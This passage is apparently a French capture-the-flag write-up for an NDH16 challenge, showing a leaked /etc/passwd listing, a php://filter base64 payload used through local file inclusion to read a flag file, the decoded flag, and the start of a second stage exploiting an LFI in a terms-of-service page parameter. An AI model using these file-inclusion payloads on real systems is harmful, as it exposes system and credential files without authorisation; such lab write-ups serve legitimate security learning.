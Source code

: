 ```
syslog:x:104:108::/home/syslog:/bin/false
messagebus:x:105:109::/var/run/dbus:/bin/false
_apt:x:106:65534::/nonexistent:/bin/false
lxd:x:107:65534::/var/lib/lxd/:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
anonymous:x:1000:1000:anonymous,,,:/home/anonymous:/bin/bash
```

Celui-ci ne contient pas d'informations, mais on a tout ce qu'il faut pour récupérer le flag.

### Le flag !

On va donc lire le fichier /flag.txt

Payload : 

`php://filter/convert.base64-encode/resource=/flag.xml`

C'est immédiat :

* d29ua2F3b25rYXdvbmthaGFoYWhhX2lMT09PT09PT09PVkUK 

![le flag](https://github.com/Sacriyana/CTF-Write-Up/raw/master/ndh16_wonkachallenge/flag1/flag.png)

Et voilà le flag de cette étape : `wonkawonkawonkahahaha_iLOOOOOOOOOVE`
Première étape réalisée ! Le deuxième site web maintenant.

## Le commerce du phoque (étape 2) 

### Découvert du site web

Pramafil est une société dans la vente (scandaleuse soit dit en passant) d'objets en peau de phoque ! 
* `http://pramafil.com/`  

![pramafil](https://github.com/Sacriyana/CTF-Write-Up/raw/master/ndh16_wonkachallenge/flag2/pramafil.png)

C'est un site one-page sans grand intérêt sauf, sauf (car il y a toujours un sauf) au niveau de ces CGU, (les phoques ce n'est pas très grave, mais quand même les CGU c'est important).  
En effet, les CGU ne sont pas sur la one-page, mais sur une page à part. Voici son url: `http://pramafil.com/cgu/?v=2018`

On tente une LFI sur le fichier /etc/passwd. Et ... et ... Jackpot, on a trouvé notre point d'entrée.

![lfi](https://github.com/Sacriyana/CTF-Write-Up/raw/master/ndh16_wonkachallenge/flag2/lfi_etc_passwd.png)

### Le flag

Il ne reste plus qu'à afficher le flag.

